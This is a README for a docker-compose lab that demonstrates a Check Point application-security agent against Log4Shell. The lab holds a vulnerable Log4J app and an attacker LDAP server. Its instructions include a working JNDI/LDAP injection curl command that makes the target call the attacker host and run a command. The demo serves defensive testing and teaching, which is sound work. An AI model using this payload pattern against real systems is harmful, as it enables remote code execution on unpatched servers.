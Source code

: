 # Check Point CloudGuard AppSec demo
 
 This is a simple docker-compose environment for deploy a Check Point AppSec embedded nano-agent demo.  
 It will deploy 4 containers, an NGINX reverse proxy, an agent-container (the nano-agent), Log4J vulnerable App and Attacker with malicious LDAP.
 The LDAP malicious server is builded at moment the creation.

You will reach all the Vulnerable application with the exposed 80 port from the NGINX server, the default.conf file already redirects all the request to the app.

## Instructions:
 
* Clone the repository
* From a machine with docker and docker-compose installed, run:  
`  export TOKEN=<your agent token>`  
`  docker-compose up `  
* From another machine run 
`  curl "http://docker host ip address"" and if you recieve "status":400,"error":"Bad Request","path":"/" as response, the server is properly listening`
* From the same machine now run 
`  curl "http://docker host ip address" -H 'X-Api-Version: ${jndi:ldap://malicious:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'`
* This last request inject the LDAP call in the log and the Log4J vulnerable dependency try to execute it, connecting to the malicious server and executing a "touch /tmp/pwned" command

* In the docker host we can run 
`  docker ps`
* And look for a container with the name log4shell-log4shell grab the ID and run 
`docker logs -f "ID of container"` 
* You will see the logs of the server when executes the command
* In the docker host again we can run with the same container ID 
`  'docker exec "ID of container" ls /tmp/'`
* And you will see the file created by the attack
`  docker-compose down `  
 

> Notes: 
> There are two ways to run docker compose: `docker-compose` and `docker compose`. Using `docker compose` (with a space, not a hyphen) is 'experimental' from a Docker perspective and seems to decide on its own value for IPC configuration and breaks this setup. Use `docker-compose` please :).
> I you want to learn more about the Reverse Proxy, you can see the 'default' file inside the /nginx-reverse-proxy folder, this is mounted to the container to provide Host Rules and Ingress Routes
